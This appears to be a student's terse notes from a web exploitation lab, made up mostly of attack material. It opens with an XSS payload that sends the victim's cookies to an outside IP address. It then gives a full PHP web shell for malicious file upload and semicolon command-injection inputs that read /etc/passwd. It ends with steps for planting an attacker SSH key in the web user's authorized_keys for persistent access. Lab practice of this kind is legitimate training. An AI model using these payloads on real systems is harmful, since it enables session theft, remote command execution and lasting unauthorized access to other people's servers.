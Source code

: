 <script>document.location="http://10.50.33.129:8000/"+document.cookie;</script>



# MAlicious File Upload 
```
  <HTML><BODY>
  <FORM METHOD="GET" NAME="myform" ACTION="">
  <INPUT TYPE="text" NAME="cmd">
  <INPUT TYPE="submit" VALUE="Send">
  </FORM>
  <pre>
  <?php
  if($_GET['cmd']) {
    system($_GET['cmd']);
    }
  ?>
  </pre>
  </BODY></HTML>
```

Need place to upload, file to upload and ...
# Upload copy of SSH RSA Token

; whoami
 
 ; cat /etc/passwd

  ; mkdir /var/www/.ssh


#  KLey Gen

ssh-keygen -t rsa -b 4096


# 

paste sha ==student@lin-ops" >> /var/www/.ssh/authorized_keys


www-data@demo-web-exploit-xss:

